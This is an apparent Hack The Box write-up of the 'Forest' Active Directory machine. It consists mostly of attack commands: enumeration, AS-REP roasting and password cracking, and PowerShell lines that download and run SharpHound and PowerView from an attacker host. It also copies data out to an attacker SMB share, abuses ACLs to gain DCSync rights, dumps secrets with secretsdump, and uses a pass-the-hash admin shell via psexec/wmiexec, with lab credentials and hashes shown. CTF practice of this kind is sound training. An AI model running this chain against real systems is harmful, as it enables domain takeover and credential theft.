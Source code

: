 ```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 > ldapsearch.txt
enum4linux 10.10.10.161
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/’
crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
SharpHound.ps1
BloodHound
CanPSRemote
secretsdump.py
psexec.py / wmiexec.py
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.161
```
![image](https://github.com/regarmulia/HTB/assets/33616880/09d1c960-d99a-4595-8c11-b9c0d1612465)


```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 > ldapsearch.txt
grep PrincipalName ldapsearch.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2d1bca0f-df1d-4d9e-8722-41643add32cc)

![image](https://github.com/regarmulia/HTB/assets/33616880/f328f6e7-861f-4b4c-94d0-3259e5d82907)
![image](https://github.com/regarmulia/HTB/assets/33616880/e64f2ccd-8f69-440b-bc52-c1a8ba5a99d2)


```
enum4linux 10.10.10.161
```
![image](https://github.com/regarmulia/HTB/assets/33616880/356699b9-c822-433f-9532-4c79b9d23d13)
![image](https://github.com/regarmulia/HTB/assets/33616880/b8648246-f916-427a-af99-942c65d17d42)


```
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/’
john hash_svc -w=/usr/share/wordlists/rockyou.txt
svc-alfresco | s3rvice
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fac35ad7-2c9f-48f8-a66e-09bcfab14d92)


```
crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0cb0e9ed-0fcf-4be0-9e0c-4983ea641a52)


# SharpHound
```
iex(new-object net.webclient).downloadstring("http://10.10.14.13/SharpHound.ps1")
```
```
invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```
![image](https://user-images.githubusercontent.com/33616880/228747631-d9e4cd27-7ef2-418b-83f3-bf65f8a4a100.png)
![image](https://user-images.githubusercontent.com/33616880/228747656-8d33da1f-b566-403e-a2f3-a4f822120c86.png)


# Copy to Kali
```
./smbserver.py share . -smb2support -username df -password df
```
```
net use \\10.10.14.13\share /u:df df
copy 20230329201446_BloodHound.zip \\10.10.14.13\share\
```
![image](https://user-images.githubusercontent.com/33616880/228748422-ad9ea303-8024-44d4-bcc5-27d3085d3a24.png)
![image](https://user-images.githubusercontent.com/33616880/228748440-68cde53c-8e2b-44f7-b672-7da04a1a6ae7.png)
![image](https://user-images.githubusercontent.com/33616880/228748470-44ad4e6d-1f5d-4938-8850-657fcb3f07d8.png)

# Open BloodHound
```
neo4j console
```
```
./BloodHound --no-sandbox
```
![image](https://user-images.githubusercontent.com/33616880/228749045-07d902b9-414d-4c06-9d03-51c1f168af9a.png)
![image](https://user-images.githubusercontent.com/33616880/228749059-b033ae44-a51a-4bc8-99e9-e506912330b6.png)
![image](https://user-images.githubusercontent.com/33616880/228749077-97736392-a3bf-487f-a241-7185071cb89c.png)


# PrivExec
```
iex(new-object net.webclient).downloadstring("http://10.10.14.13/PowerView.ps1")
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword)
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
![image](https://user-images.githubusercontent.com/33616880/228749660-817a3ba7-36da-47d6-b7a4-0931bc4ab696.png)
![image](https://user-images.githubusercontent.com/33616880/228749695-ae4ac63d-d4de-4ee2-983b-45b42c936ba2.png)

```
./secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
![image](https://user-images.githubusercontent.com/33616880/228750251-f0a28183-07eb-45dc-8dc9-9e196446d932.png)
![image](https://user-images.githubusercontent.com/33616880/228750276-e41cdd61-01d0-4e2a-a8f0-297a4f19f098.png)

```
./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
```
![image](https://user-images.githubusercontent.com/33616880/228750594-596cfeb8-b198-4a99-9807-590e11acd089.png)
OR
```
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```
![image](https://user-images.githubusercontent.com/33616880/228751819-f64860be-ce06-4835-9eb7-75f16ecb31e3.png)
